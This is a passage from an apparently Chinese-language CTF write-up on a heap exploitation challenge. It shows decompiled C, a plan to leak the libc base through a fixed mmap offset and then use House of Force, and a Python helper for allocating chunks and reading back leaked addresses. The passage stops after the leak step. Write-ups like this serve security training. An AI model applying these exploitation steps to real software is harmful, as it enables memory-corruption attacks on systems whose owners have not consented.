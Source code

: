 
```bash
unsigned __int64 fake_show()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts(&byte_D93);           //'\n'
  return __readfsqword(0x28u) ^ v1;
}
```

### 思路

这个程序对申请 chunk 的大小没有要求，只有 add 函数  
所以这里先用 mmap 获取 libc\_base，在打个 house of force

### 详细流程

首先程序申请完堆块后就会把堆块地址打印出来，所以这里直接用返回堆块的地址

```bash
def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr
```

```bash
libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)
```

直接利用 mmap 的固定偏移泄露出来 libc\_base，这里只是扩展了堆空间，并没有申请 chunk  
如果下一步正常申请的话，还是可以看到正常的 top chunk 的

[![](assets/1701612371-9690b0d4d89a86302296f2a763b93ff4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145748-96eeb32e-17dc-1.png)
